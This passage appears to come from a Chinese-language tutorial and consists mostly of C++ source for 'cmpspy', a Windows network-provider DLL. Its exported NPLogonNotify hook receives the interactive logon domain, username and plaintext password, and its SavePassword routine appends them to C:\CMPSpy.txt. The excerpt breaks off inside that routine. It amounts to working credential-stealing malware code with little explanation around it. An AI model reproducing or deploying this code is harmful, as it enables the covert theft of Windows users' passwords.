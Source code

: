 ```cpp
} MSV1_0_LOGON_SUBMIT_TYPE, * PMSV1_0_LOGON_SUBMIT_TYPE;

// from NTSecAPI.h
typedef struct _MSV1_0_INTERACTIVE_LOGON
{
    MSV1_0_LOGON_SUBMIT_TYPE MessageType;
    UNICODE_STRING LogonDomainName;
    UNICODE_STRING UserName;
    UNICODE_STRING Password;
} MSV1_0_INTERACTIVE_LOGON, * PMSV1_0_INTERACTIVE_LOGON;

// 注意这里新增了 extern "C" 
extern "C" __declspec(dllexport)
DWORD
APIENTRY
NPGetCaps(
    DWORD nIndex
);

// 注意这里新增了 extern "C" 
extern "C" __declspec(dllexport)
DWORD
APIENTRY
NPLogonNotify(
    PLUID lpLogonId,
    LPCWSTR lpAuthInfoType,
    LPVOID lpAuthInfo,
    LPCWSTR lpPrevAuthInfoType,
    LPVOID lpPrevAuthInfo,
    LPWSTR lpStationName,
    LPVOID StationHandle,
    LPWSTR * lpLogonScript
);
```

`cmpspy.cpp` 代码如下：

```cpp
// cmpspy.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

void SavePassword(PUNICODE_STRING logondomainname, PUNICODE_STRING username, PUNICODE_STRING password)
{
    HANDLE hFile;
    DWORD dwWritten;

    hFile = CreateFile(TEXT("C:\\CMPSpy.txt"),
        GENERIC_WRITE,
        0,
        NULL,
        OPEN_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile != INVALID_HANDLE_VALUE)
    {
        SetFilePointer(hFile, 0, NULL, FILE_END);
        if (logondomainname->Length > 0)
        {
            WriteFile(hFile, logondomainname->Buffer, logondomainname->Length, &dwWritten, 0);
            WriteFile(hFile, L" -> ", 8, &dwWritten, 0);
        }

```